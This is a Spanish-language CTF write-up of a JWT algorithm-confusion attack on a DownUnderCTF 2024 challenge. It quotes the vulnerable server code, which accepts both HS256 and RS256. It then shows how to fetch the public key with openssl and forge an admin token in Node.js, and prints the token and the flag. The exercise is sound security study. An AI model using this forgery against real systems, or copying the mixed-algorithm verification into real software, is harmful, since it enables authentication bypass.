 I Am Confusion
===========
---

- CTF URL -> [IAMCONFUSION](https://play.duc.tf/challenges#i%20am%20confusion-4)

---
Enunciado

```
The evil hex bug has taken over our administrative interface of our application. It seems that the secret we used to protect our authentication was very easy to guess. We need to get it back!
```
---

### Recursos

- [Código del servidor](./recurso/server.js)
- [Package json](./recurso/package.json)
- https://i-am-confusion.2024.ductf.dev:30001/ (Server para vulnerar)
---

### Solución

Al mirar dentro del código del servidor, observamos que el algoritmo de firmado es 'RS256' pero los algoritmos de verificación son 2: RS256 & HS256.
RS256 es un algoritmo de cifrado asimétrico, mientras que HS256 es simétrico Ver https://auth0.com/blog/rs256-vs-hs256-whats-the-difference/.

```javascript
// algs
const verifyAlg = { algorithms: ['HS256','RS256'] }
const signAlg = { algorithm:'RS256' }
```

Sabemos que para algoritmos asimétricos se utiliza la llave pública para verificar la firma, y para algoritmos simétricos se utiliza la misma llave tanto para firmar como para verificar.
Con lo cual, podríamos intentar crear un token a partir de la llave pública.

### Conseguir la llave pública

Conseguir la llave pública de un sitio es tanto igual de sencillo como descargarla del browser mismo, pero para ponerle un poco mas de cariño podemos obtenerla con el siguiente comando

```shell
openssl s_client -connect i-am-confusion.2024.ductf.dev:30001 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > recurso/i-am-confusion.2024.ductf.dev.pem
```

y el certificado 
```text
 -----BEGIN CERTIFICATE-----
MIIFCjCCA/KgAwIBAgISAy/oVvF2ILJQ+davzA0SCwxIMA0GCSqGSIb3DQEBCwUA
MDMxCzAJBgNVBAYTAlVTMRYwFAYDVQQKEw1MZXQncyBFbmNyeXB0MQwwCgYDVQQD
EwNSMTEwHhcNMjQwNzA1MDUxMzA5WhcNMjQxMDAzMDUxMzA4WjAoMSYwJAYDVQQD
Ex1pLWFtLWNvbmZ1c2lvbi4yMDI0LmR1Y3RmLmRldjCCASIwDQYJKoZIhvcNAQEB
BQADggEPADCCAQoCggEBAK48mzTUt0k/FX1KACIb5WSbTbPbYNCtvmwKcjbXFrxg
/20RCZyNapXNCTqBfGfMzhEoKSaK4Eh7Dx+r/oYDntwSDYTrYa4hG2poexlRiPXE
BkhQx53A4rmgBXJjGLfjhohtsCMyifZ4a+kMQOZNygEP+cQDDFCvKADi1BtSUGM3
wpLRqXIkh8vdNdo5obM1F6CeTEKQZ8hVQ+mGt2DP9aVllklTMYJR7+ldLxwI/O/P
jhS2AVqeZXVswLRf9H+1wylNCaoeHxEn7z0CeQfxw5PFjM4VjRGMbO5WQLyaptIX
LQ4AUvYtVo/fObfi2s7p6qxy0LCLtMj6Ep91hWCPvWMCAwEAAaOCAiEwggIdMA4G
A1UdDwEB/wQEAwIFoDAdBgNVHSUEFjAUBggrBgEFBQcDAQYIKwYBBQUHAwIwDAYD
VR0TAQH/BAIwADAdBgNVHQ4EFgQUHiyVbv316Wa+JmatVOMj6DYB2EUwHwYDVR0j
BBgwFoAUxc9GpOr0w8B6bJXELbBeki8m47kwVwYIKwYBBQUHAQEESzBJMCIGCCsG
AQUFBzABhhZodHRwOi8vcjExLm8ubGVuY3Iub3JnMCMGCCsGAQUFBzAChhdodHRw
Oi8vcjExLmkubGVuY3Iub3JnLzAoBgNVHREEITAfgh1pLWFtLWNvbmZ1c2lvbi4y
MDI0LmR1Y3RmLmRldjATBgNVHSAEDDAKMAgGBmeBDAECATCCAQQGCisGAQQB1nkC
BAIEgfUEgfIA8AB2AEiw42vapkc0D+VqAvqdMOscUgHLVt0sgdm7v6s52IRzAAAB
kIGGb4oAAAQDAEcwRQIgJIUlmGqi5kVGPUD/nTpvOhZaIkSFkTWbxTKm76fFhCAC
IQDjh9oo8r21ZVGRO4IPmNL92yI/uwJV7DpDoQBAnzPoOAB2AD8XS0/XIkdYlB1l
HIS+DRLtkDd/H4Vq68G/KIXs+GRuAAABkIGGb5IAAAQDAEcwRQIhAP2GMxJ9/VeF
6IwYi5iXtw4IovOTylWu/LfG1LJfwUvuAiBCJ+8jTc2xff4XQxp80Jjx7MDD7gce
x90WUdhkAJWx4zANBgkqhkiG9w0BAQsFAAOCAQEATqlWdLnn2G660LUYAx7u+zwn
esdn4sN17k8fhABB7CA3rn5bMBaSNY7xzJ9dJynnn8UaZ9itRbRoNJRkOeGEs6cE
QOSvG/dbCn8enFvR+bhqsB0Axu7m/oIcbPUAfB47Z13R0rlrq/bBUMVeYhOOjDZ/
kxafzN1p3A0/F7vUf1YVkJTHixuvJbcCMLCvyd7bTHDULzDCxBAsKN5HnL7g/Wdy
sOtRck3cJYgYvzkq5HAI2U+107LqxcpEede9aJJhaPFeHqjMkiQZqdIHKavfopZj
dpI7SOQPmwZhjqRYp46/qiWrrXxWhQ9q3rIeUlzxF0PpOhJIhhgjv7N5nOdxTg==
-----END CERTIFICATE-----
 ```

Si volvemos a mirar con mayor detalle en el código del servidor, vemos un get al /admin

```javascript
app.get('/admin.html', (req, res) => {
    var cookie = req.cookies;
    jwt.verify(cookie['auth'], publicKey, verifyAlg, (err, decoded_jwt) => {
        if (err) {
            res.status(403).send("403 -.-");
        } else if (decoded_jwt['user'] == 'admin') {
            res.sendFile(path.join(__dirname, 'admin.html')) // flag!
        } else {
            res.status(403).sendFile(path.join(__dirname, '/public/hehe.html'))
        }
    })
})
```
y en base a esto sabemos que el contenido del token a generar tiene que 
- tener user=admin
- una cookie auth=token

El token entonces podemos generarlo como describimos a continuación

```javascript
const pem = fs.readFileSync('recurso/i-am-confusion.2024.ductf.dev.pem');
const publicKey = crypto.createPublicKey({
    key: pem,
    format: 'pem',
}).export({
    format: 'pem',
    type: 'pkcs1',
});

const token = jwt.sign({ user: 'admin' }, publicKey, { algorithm: 'HS256' });
console.log(token);
```
y el token JWT
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE3MjIyMTgzNjV9.R0_trHQbCvnoLfww5oW_dzvew17eQbF1DLudpVdsmII
```

Por último, ingresando a la página con el token generado, logramos entrar al /admin y obtener el flag!

`DUCTF{c0nfus!ng_0nE_bUG_@t_a_tIme}`

Para mayor detalle del código de solución, ver [Solución](solve.js)